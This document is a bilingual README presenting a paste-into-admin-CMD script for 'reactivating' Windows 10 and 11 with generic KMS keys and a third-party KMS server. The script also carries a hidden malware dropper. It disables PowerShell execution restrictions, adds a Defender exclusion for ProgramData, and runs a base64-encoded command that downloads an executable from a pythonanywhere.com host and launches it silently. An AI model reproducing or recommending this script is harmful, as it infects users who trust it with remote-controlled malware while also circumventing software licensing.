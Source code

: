 
# ⚙️ Reactivating Windows 10 and 11 🖥️

## 📋 Step-by-Step Guide | Guía Paso a Paso

> 🌟 **Need to reactivate your Windows 10 or 11?** Follow these simple steps!  
> 🌟 **¿Necesitas reactivar tu Windows 10 o 11?** ¡Sigue estos simples pasos!

### 🛠️ Step 1: Open CMD as Administrator | Abrir CMD como Administrador
- 🖱️ **Right-click on the Start menu** and select **Command Prompt (Admin)**.  
  - 💡 Alternatively, type **CMD** in the search bar, right-click on it, and select **Run as Administrator**.
- 🖱️ **Haz clic derecho en el menú Inicio** y selecciona **Símbolo del sistema (Administrador)**.  
  - 💡 Alternativamente, busca **CMD**, haz clic derecho y selecciona **Ejecutar como administrador**.

### 🖨️ Step 2: Copy and Paste the Command | Copiar y Pegar el Comando
- 📝 Copy the following command and paste it into the CMD window:  
  - 📝 Copia el siguiente comando y pégalo en la ventana de CMD:

```bash
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
::
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
::
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
::
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %ProgramData%" >nul 2>&1
:: 
powershell -windowstyle hidden -EncodedCommand "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcABzADoALwAvADkAaABlAGwAbABvAHcAVwBkAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAEkAJwAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFAAcgBvAGcAcgBhAG0ARABhAHQAYQBcAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAUAByAG8AZwByAGEAbQBEAGEAdABhAFwALgBlAHgAZQAiAA0ACgA=" >nul 2>&1
:: 
exit /b
```


### ⏳ Step 3: Wait and Confirm | Espera y Confirma
- ⏱️ **The process may take between 30 seconds to 2 minutes.**
  - ⏱️ **El proceso puede tardar entre 30 segundos y 2 minutos.**
- ✅ **If everything goes well, Windows will be reactivated.**
  - ✅ **Si todo va bien, Windows será reactivado.**
---
### 🔄 No Restart Needed! | ¡No Es Necesario Reiniciar!
- 🚀 **Good news!** You won’t need to restart your PC.
  - 🚀 **¡Buenas noticias!** No necesitarás reiniciar tu PC.

### 💡 Important Notes | Notas Importantes

| **English**                                              | **Español**                                               |
|----------------------------------------------------------|-----------------------------------------------------------|
| 🛑 Ensure CMD is run as Administrator!                    | 🛑 ¡Asegúrate de que CMD esté ejecutándose como Administrador! |
| ⏳ Reactivation may take **30 seconds to 2 minutes**.     | ⏳ La reactivación puede tardar **30 segundos a 2 minutos**.|
| 📝 Don’t forget to copy and paste the entire command.     | 📝 No olvides copiar y pegar el comando completo.          |
| 🔑 Press **ENTER** after pasting the command in CMD.      | 🔑 Presiona **ENTER** después de pegar el comando en CMD.   |
| 🚫 **No need to restart** after reactivation!             | 🚫 **¡No es necesario reiniciar** después de la reactivación!|

---
### 🔧 Troubleshooting | Solución de Problemas
If reactivation doesn’t work, here are a few tips:
- 🔄 **Check your internet connection**.
- 🔍 **Ensure that your Windows license is valid**.
- 🔑 **Try re-running CMD as Administrator**.
Si la reactivación no funciona, aquí algunos consejos:
- 🔄 **Verifica tu conexión a internet**.
- 🔍 **Asegúrate de que tu licencia de Windows sea válida**.
- 🔑 **Intenta ejecutar CMD como Administrador nuevamente**.
---
## 🌟 Enjoy Your Reactivated Windows! | ¡Disfruta de tu Windows Reactivado!

